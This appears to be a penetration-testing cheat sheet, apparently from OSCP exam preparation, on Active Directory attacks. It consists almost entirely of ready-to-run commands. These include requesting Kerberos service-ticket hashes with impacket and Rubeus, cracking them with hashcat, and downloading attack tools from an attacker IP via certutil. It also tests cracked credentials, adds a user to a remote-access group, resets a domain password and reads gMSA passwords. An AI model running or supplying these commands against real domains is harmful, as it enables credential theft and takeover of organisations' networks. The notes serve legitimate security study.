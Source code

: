 ### Kerberoasting

```jsx
sudo impacket-GetUserSPNs -request -dc-ip 10.10.137.146 oscp.exam/web_svc
```

```jsx
certutil -urlcache -split -f http://192.168.45.214/Rubeus.exe
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
type hashes.kerberoast
```

```jsx
sudo hashcat -m 13100 sql_svc.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

```jsx
netexec smb 192.168.204.187 -u svc_mssql -p trustno1
```

### AS-REP Roasting

```jsx
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

```jsx
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### ACLs

[Abusing Active Directory ACLs/ACEs | Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

***Generic All***

```jsx
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d ldap://nara-security.com -s 192.168.181.30 add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM"
```

```jsx
net user jen Password123 /domain
```

**Generic All on Computer**: [**Resource Based Constrained Delegation Attack**](https://www.notion.so/Resource-Based-Constrained-Delegation-Attack-8003ef218a7e4cb2b7d0709521e85355?pvs=21) 

***ReadGMSAPassword***

```jsx
 wget https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe
 certutil -split -urlcache -f http://192.168.45.171/GMSAPasswordReader.exe
.\GMSAPasswordReader.exe --AccountName svc_apache$
```
